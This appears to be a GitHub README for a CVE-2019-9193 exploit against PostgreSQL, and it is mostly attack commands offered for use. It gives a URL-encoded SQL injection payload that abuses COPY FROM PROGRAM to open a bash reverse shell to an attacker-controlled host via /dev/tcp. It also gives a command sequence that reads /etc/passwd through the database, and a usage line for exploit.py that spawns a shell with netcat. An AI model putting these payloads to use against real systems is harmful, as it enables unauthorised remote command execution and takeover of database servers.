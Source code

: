 # CVE-2019-9193

Inspiration from this blog post:
https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/authenticated-arbitrary-command-execution-on-postgresql-9-3/


working payload for SQLi:

```
DROP TABLE IF EXISTS cmd_exec;CREATE TABLE cmd_exec(cmd_output text);COPY cmd_exec FROM PROGRAM 'bash+-c+"bash+-i+>%26+/dev/tcp/${ATTACKER_IP}/${ATTACKER_PORT}+0>%261"'; SELECT cast(cmd_output as int) from cmd_exec
```



If you have direct access to the db, you can also do the above a command at a time:

```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'cat /etc/passwd';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```

The exploit.py script does this.
You can use the script like so:

```
python3 exploit.py -i $RHOST -p 5437 -c 'nc -c bash ${ATTACKER_IP} ${ATTACKER_PORT}'
```
